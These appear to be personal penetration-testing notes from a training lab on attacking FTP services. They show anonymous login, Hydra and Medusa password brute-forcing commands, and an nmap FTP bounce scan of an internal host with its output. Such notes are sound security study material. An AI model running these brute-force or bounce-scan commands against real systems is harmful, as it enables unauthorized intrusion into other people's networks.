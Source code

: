 #### Anonymous Authentication
```shell-session
wannacrye@htb[/htb]$ ftp 192.168.2.142    
                     
Connected to 192.168.2.142.
220 (vsFTPd 2.3.4)
Name (192.168.2.142:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0               9 Aug 12 16:51 test.txt
226 Directory send OK.
```

Nmap can do this with `sudo nmap -sC -sV -p 21 <IP>`

#### Brute Forcing 
##### Hydra
`hydra -L usernames.list -P passwords.list ftp://<IP> -t 48`

##### Medusa
`medusa -u fiona -P /usr/share/wordlists/rockyou.txt -h 10.129.203.7 -M ftp`

#### FTP Bounce Attack
Use the PORT command to make the FTP server deliver outbound traffic to another device on the network.

- Useful if a DMZ FTP server is reachable but the target (Internal server) is not, but is from the external DMZ.

![[Pasted image 20240727192606.png]]

##### How to Use
`nmap -b`

We're logging in anonymously to the external server (10.10.110.213), and scanning the internal network
```shell
wannacrye@htb[/htb]$ nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2

Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-27 04:55 EDT
Resolved FTP bounce attack proxy to 10.10.110.213 (10.10.110.213).
Attempting connection to ftp://anonymous:password@10.10.110.213:21
Connected:220 (vsFTPd 3.0.3)
Login credentials accepted by FTP server!
Initiating Bounce Scan at 04:55
FTP command misalignment detected ... correcting.
Completed Bounce Scan at 04:55, 0.54s elapsed (1 total ports)
Nmap scan report for 172.17.0.2
Host is up.

PORT   STATE  SERVICE
80/tcp open http

<SNIP>
```


